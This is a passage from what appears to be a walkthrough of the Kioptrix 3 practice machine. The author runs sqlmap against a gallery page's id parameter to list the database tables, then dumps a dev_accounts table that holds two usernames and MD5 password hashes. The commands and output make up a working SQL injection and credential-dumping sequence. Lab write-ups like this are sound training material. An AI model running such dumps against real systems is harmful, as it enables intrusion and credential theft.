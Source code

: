 There is a database called gallery. I check to see what tables are available:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery --tables
.
.
.
 
[22:57:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL 5.0
[22:57:14] [INFO] fetching tables for database: gallery
[22:57:14] [INFO] the SQL query used returns 7 entries
[22:57:14] [INFO] retrieved: "dev_accounts"
[22:57:14] [INFO] retrieved: "gallarific_comments"
[22:57:14] [INFO] retrieved: "gallarific_galleries"
[22:57:14] [INFO] retrieved: "gallarific_photos"
[22:57:14] [INFO] retrieved: "gallarific_settings"
[22:57:14] [INFO] retrieved: "gallarific_stats"
[22:57:14] [INFO] retrieved: "gallarific_users"
Database: gallery                                                              
[7 tables]
+----------------------+
| dev_accounts         |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
```

A table dev_accounts was found. Maybe it contains user names and passwords. I run sqlmap again to dump the contents of that table:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery -T dev_accounts --dump
.
.
.
[22:58:34] [INFO] the SQL query used returns 2 entries
[22:58:34] [INFO] retrieved: "1","0d3eccfb887aabd50f243b3f155c0f85","dreg"
[22:58:34] [INFO] retrieved: "2","5badcaf789d3d1d09794d8f021f40f0e","loneferret"
[22:58:34] [INFO] analyzing table dump for possible password hashes            
recognized possible password hashes in column 'password'. Do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+
```
